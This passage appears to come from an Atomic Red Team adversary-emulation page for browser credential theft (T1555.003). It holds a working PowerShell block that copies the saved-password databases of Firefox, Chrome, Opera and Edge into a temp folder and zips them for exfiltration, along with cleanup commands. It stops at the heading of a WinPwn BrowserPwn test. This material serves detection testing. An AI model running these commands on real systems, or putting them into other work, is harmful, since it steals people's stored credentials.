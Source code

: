 




#### Attack Commands: Run with `powershell`! 


```powershell
$exfil_folder = "$env:temp\T1555.003"
if (test-path "$exfil_folder") {} else {new-item -path "$env:temp" -Name "T1555.003" -ItemType "directory" -force}
$FirefoxCredsLocation = get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*.default-release\"
if (test-path "$FirefoxCredsLocation\key4.db") {copy-item "$FirefoxCredsLocation\key4.db" -destination "$exfil_folder\T1555.003Firefox_key4.db"} else {}
if (test-path "$FirefoxCredsLocation\logins.json") {copy-item "$FirefoxCredsLocation\logins.json" -destination "$exfil_folder\T1555.003Firefox_logins.json"} else {}
if (test-path "$env:localappdata\Google\Chrome\User Data\Default\Login Data") {copy-item "$env:localappdata\Google\Chrome\User Data\Default\Login Data" -destination "$exfil_folder\T1555.003Chrome_Login Data"} else {}
if (test-path "$env:localappdata\Google\Chrome\User Data\Default\Login Data For Account") {copy-item "$env:localappdata\Google\Chrome\User Data\Default\Login Data For Account" -destination "$exfil_folder\T1555.003Chrome_Login Data For Account"} else {}
if (test-path "$env:appdata\Opera Software\Opera Stable\Login Data") {copy-item "$env:appdata\Opera Software\Opera Stable\Login Data" -destination "$exfil_folder\T1555.003Opera_Login Data"} else {}
if (test-path "$env:localappdata/Microsoft/Edge/User Data/Default/Login Data") {copy-item "$env:localappdata/Microsoft/Edge/User Data/Default/Login Data" -destination "$exfil_folder\T1555.003Edge_Login Data"} else {} 
compress-archive -path "$exfil_folder" -destinationpath "$exfil_folder.zip" -force
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "$env:temp\T1555.003.zip" -force -erroraction silentlycontinue   
Remove-Item -Path "$env:temp\T1555.003\" -force -recurse -erroraction silentlycontinue
```





<br/>
<br/>

## Atomic Test #11 - WinPwn - BrowserPwn
Collect Browser credentials as well as the history via winpwn browserpwn function of WinPwn.

**Supported Platforms:** Windows


**auto_generated_guid:** 764ea176-fb71-494c-90ea-72e9d85dce76






#### Attack Commands: Run with `powershell`! 

